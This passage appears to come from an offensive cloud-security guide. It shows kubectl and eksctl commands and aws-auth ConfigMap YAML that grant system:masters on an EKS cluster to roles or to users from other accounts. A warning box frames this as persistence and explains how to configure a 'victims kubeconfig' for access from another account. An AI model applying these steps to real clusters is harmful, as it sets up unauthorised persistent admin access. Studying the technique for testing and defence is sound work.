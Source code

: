 ```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
  name: aws-auth
  namespace: kube-system
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node{{EC2PrivateDNSName}}
      groups:
        - system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node{{EC2PrivateDNSName}}
      groups:
        - system:masters
  mapUsers: |
    - userarn: arn:aws:iam::098765432123:user/SomeUserTestName
      username: admin
      groups:
        - system:masters
```

> [!WARNING]
> You can use **`aws-auth`** for **persistence** giving access to users from **other accounts**.
>
> However, `aws --profile other_account eks update-kubeconfig --name <cluster-name>` **doesn't work from a different acount**. But actually `aws --profile other_account eks get-token --cluster-name arn:aws:eks:us-east-1:123456789098:cluster/Testing` works if you put the ARN of the cluster instead of just the name.\
> To make `kubectl` work, just make sure to **configure** the **victims kubeconfig** and in the aws exec args add `--profile other_account_role` so kubectl will be using the others account profile to get the token and contact AWS.

### CoreDNS config map
